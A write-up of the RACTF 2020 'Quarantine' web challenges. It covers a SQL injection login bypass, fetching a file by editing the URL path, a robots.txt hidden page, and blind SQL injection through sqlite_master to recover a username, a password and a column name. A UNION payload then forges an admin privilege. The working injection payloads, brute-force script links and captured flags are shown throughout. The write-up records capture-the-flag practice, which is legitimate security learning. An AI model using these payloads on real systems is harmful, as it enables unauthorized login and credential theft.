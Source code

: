 # RACTF Write-Up - Quarantine (4 challenges)

## Quarantine - First Access

In this challenge, we have to login somehow in the application, without having any passwords.

It has a SQL Injection on the Login Screen, but wen you try the basic, it returns the message.

"Attempting to login as more than one user!??"

Which means, strangely, that it is searching for all users which that password.
OK, so we just need to bring only one user.

Assuming the query is:
`select * from users where password = 'pwd'`

We just call this:
```
select * from users where password = '' or password=(select max(password) from users) or '1'='2'
```

And we're in!

```
ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}
```

## Quarantine: Finding Server Information

In this challenge, we have to somehow get the application source code, with a hint, that it's called "app.py".

While watching de videos, you see the URL:
```http://95.216.233.106:62020/watch/HMHT.mp4```

So, we just try:
```http://95.216.233.106:62020/watch/app.py```

And it's done (in the source code)

```ractf{qu3ry5tr1ng_m4n1pul4ti0n}```

It doesnt really brings the source, but brings the flag.

## Quarantine - Hidden Information

This easy challenge says there is a hidden information.

**/robots.txt** hiddens a URL **/admin-stash** from search engines, which has the flag.
robots.txt: ```ractf{1m_n0t_4_r0b0T}```

## Quarantine - Getting Admin

We are challenged to get an admin account (and possibly call the /admin, which is forbidden at first)

For this, I used a series of SQL Injection Attacks, so I could understand the database model.

I used a similar approach of the first SQL Injection, but I had to do it in phases.

Unfortunately, I didnt save all the information, so I'll use the info I have for the write-up.

#### Get all the usernames

Used substring to check it letter (checkin with login OK or not).

```
select * from users
where password = '' or ((select substr(lower(username), 1, 1) from users where username > '' and username = (select min(username) from users)) = 'a') or '1'='2'
```

Brute-forced with:
https://github.com/Neptunians/ractf/blob/master/2020/quarantine/brute_usernames.py

-- Found user: 'Dave'

I think I found others, but I didnt save the names :(

#### Get user password

Same approach, brute-forced with:
https://github.com/Neptunians/ractf/blob/master/2020/quarantine/brute_passwords.py

Found password:
```
'p3rf3ct1nfr4structre'
```

It was not enough to get admin.
Apparently, no user was admin.

#### Had to find more database columns

Since it was a sqlite, I didnt have a information_schema to search.
It's a bitch to get column information because, it is all contained in a string, with the create table command.

#### Found the extra column name

Found column by column, brute-forcing the name with substring (again)

With this payload, I found the number of columns and brute-forced the name of the extra column.

```
select * from users
where password = '' or (SELECT substr(sql, 26, 1) FROM sqlite_master WHERE type='table' and tbl_name = 'users' and sql like '%,%,%,%')='a' or '1'='2'
```

Used this code
https://github.com/Neptunians/ractf/blob/master/2020/quarantine/brute_column_names.py

ID, username, password AND "privilege"!

#### Privilege escalation

Found that I was logging in using privilege=1, but I needed privilege=2

-- Lets Return a fake privilege (2)
```
select * from users
where password = '' union select 'Dave', 'p3rf3ct1nfr4structre', 2 from users where username = 'Dave'
```

Final Payload: 
```
' union select 'Dave', 'p3rf3ct1nfr4structre', 2 from users where username = 'Dave
```

And after going to /admin, it's working!

```
ractf{j4va5cr1pt_w3b_t0ken}
```

### Unintended solution

After looking at the flag text, I found the intended solution was breaking the JWT.
Found other write-ups about it, so I wont write again, since it was not my solution.

Anyhow, it was fun!
